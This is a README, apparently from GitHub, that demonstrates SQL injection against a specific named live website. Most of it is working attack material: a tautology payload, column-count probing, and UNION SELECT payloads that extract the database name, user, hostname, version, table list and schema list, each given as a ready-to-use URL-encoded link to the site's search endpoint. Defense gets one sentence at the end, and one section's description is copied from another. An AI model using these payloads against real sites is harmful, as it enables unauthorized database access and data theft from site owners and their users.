 # Website Link : https://fruits.selfmade.solutions

This website is Vulnerabile in sql injection. Here we see how sql injection happen in real world using this website.

# SQL Injection Vulnerability Experiment

## Overview

This section documents the SQL injection vulnerabilities identified in the website [https://fruits.selfmade.solutions/]. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## Testing for SQL Injection

To determine if a website is vulnerable to SQL injection, you can use various payloads and observe the system's responses. Here are some commands and payloads that were used to test the website.

### Basic SQL Injection Test

To perform a basic SQL injection test, input the following payload into the search functionality of the website:

' OR '1'='1

**Expected Outcome:** The query should return all records, indicating that the SQL injection is successful.

### Advanced SQL Injection Tests

#### Finding the Number of Columns

You may need to find the number of columns in the original query. This can be done with an injection like:

- `' ORDER BY 1;--`
- `' ORDER BY 2;--`
- `' ORDER BY 3;--`

Continue increasing the number until you get an error, which will indicate the number of columns.

Inject the Union-Based Payload:
Once you know the number of columns, use the UNION injection.

Knowing that the search table has 12 columns, you need to adjust your UNION SELECT statement to match this structure. Here's how you can do it:

Crafting the Injection Payload for a 12-Column Table
Match the Number of Columns:
Ensure the UNION SELECT has the same number of columns as the original query.

Use Null Values for Unneeded Columns:
If you're only interested in extracting the database name, use null for the other columns.

### Extracting the database name

`' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--`

Here we use URL encode because this website uses GET method in form so the given inputs are passes through the URL so we use URL encoding to avoid errors.Which can be seen clearly in result page URL after searching like `apple` etc...

URL Encoded Payload
To use this in a URL, you need to URL-encode the payload:

plaintext

`%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--`

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--%20

Explanation

' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--:
This payload injects a union query that matches the 12-column structure of the original query and extracts the current database name.

URL-encoded version:

This converts the payload into a format suitable for use in a URL.

we can't use Error-Based Injection in this website because the error stop the flow of execution in the server.

### Retrieving User Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT user(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

plaintext

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20user%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retrieving Server Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT @@hostname, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20%40%40hostname%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retriving Sql Version 

use the following payload:

`' UNION SELECT version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20version%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Listing All Tables in the Database

To list all tables in the current database, use:

`' UNION SELECT GROUP_CONCAT(table_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = database();-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28table_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.tables%20WHERE%20table_schema%20%3D%20database%28%29%3B--%20

### Listing All Databases

To list all databases, use:

`' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.schemata;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28schema_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.schemata%3B--%20

### To find additional informations

use:`' OR (backtick here)id(backtick here)='13' -- `

This input will fetch exactly the item with id '13' on the table.

Example : https://fruits.selfmade.solutions/result.php?search=%27+OR+%60id%60%3D%2713%27+--++

## SQL Injection Prevention

To protect your application from SQL injection vulnerabilities, always sanitize and validate a user inputs.
